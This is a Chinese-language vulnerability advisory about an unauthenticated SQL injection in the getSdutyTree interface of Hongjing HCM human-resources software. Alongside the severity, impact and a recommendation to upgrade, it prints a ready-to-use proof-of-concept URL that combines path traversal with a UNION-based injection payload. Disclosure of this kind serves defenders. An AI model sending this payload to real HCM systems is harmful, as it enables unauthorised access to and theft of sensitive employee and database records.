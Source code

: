 #  漏洞预警 | 宏景HCM SQL注入漏洞   
浅安  浅安安全   2024-07-13 08:03  
  
**0x00 漏洞编号**  
- # 暂无  
  
**0x01 危险等级**  
- 高危  
  
**0x02 漏洞概述**  
  
宏景人力资源管理软件是一款人力资源管理与数字化应用相融合，满足动态化、协同化、流程化、战略化需求的软件。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/7stTqD182SXhZfJGiaXfdjmnmnU9CcG6XajFjVjAA4Jno8LwWB1ia5Py19wpjxzZ7EOR0eoXNIfiaiceHt9Siby29Sg/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
**0x03 漏洞详情**  
  
**漏洞类型：**  
SQL注入  
  
**影响：**  
敏感信息泄露****  
  
**简述：**  
宏景HCM的getSdutyTree接口处存在SQL注入漏洞，未经过身份认证的远程攻击者可利用此漏洞执行任意SQL指令，从而窃取数据库敏感信息。  
###   
  
**0x04 影响版本**  
- 宏景HCM  
  
**0x05****POC**  
```
{{BaseURL}}/w_selfservice/oauthservlet/%2e./.%2e/servlet/sduty/getSdutyTree?param=child&target=1&codesetid=1&codeitemid=1%27+UNION+ALL+SELECT+NULL%2CCHAR%28113%29%2BCHAR%28120%29%2BCHAR%28106%29%2BCHAR%28112%29%2BCHAR%28113%29%2BCHAR%28106%29%2BCHAR%28119%29%2BCHAR%2885%29%2BCHAR%2873%29%2BCHAR%2887%29%2BCHAR%2899%29%2BCHAR%2875%29%2BCHAR%28116%29%2BCHAR%2872%29%2BCHAR%28113%29%2BCHAR%28104%29%2BCHAR%28107%29%2BCHAR%2889%29%2BCHAR%28115%29%2BCHAR%28108%29%2BCHAR%2873%29%2BCHAR%2884%29%2BCHAR%2869%29%2BCHAR%2873%29%2BCHAR%2875%29%2BCHAR%2883%29%2BCHAR%2898%29%2BCHAR%28116%29%2BCHAR%28120%29%2BCHAR%2889%29%2BCHAR%2884%29%2BCHAR%2882%29%2BCHAR%28120%29%2BCHAR%2884%29%2BCHAR%28116%29%2BCHAR%2888%29%2BCHAR%28112%29%2BCHAR%2887%29%2BCHAR%2873%29%2BCHAR%28109%29%2BCHAR%28104%29%2BCHAR%2887%29%2BCHAR%28102%29%2BCHAR%2897%29%2BCHAR%2877%29%2BCHAR%28113%29%2BCHAR%28118%29%2BCHAR%28106%29%2BCHAR%28122%29%2BCHAR%28113%29%2CNULL%2CNULL--+Iprd
```  
  
**仅供安全研究与学习之用，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布****者**  
**不承担任何法律及连带责任。**  
  
**0x06****修复建议**  
  
**目前官方已发布漏洞修复版本，建议用户升级到安全版本****：**  
  
https://www.hjehr.com/  
  
  
  
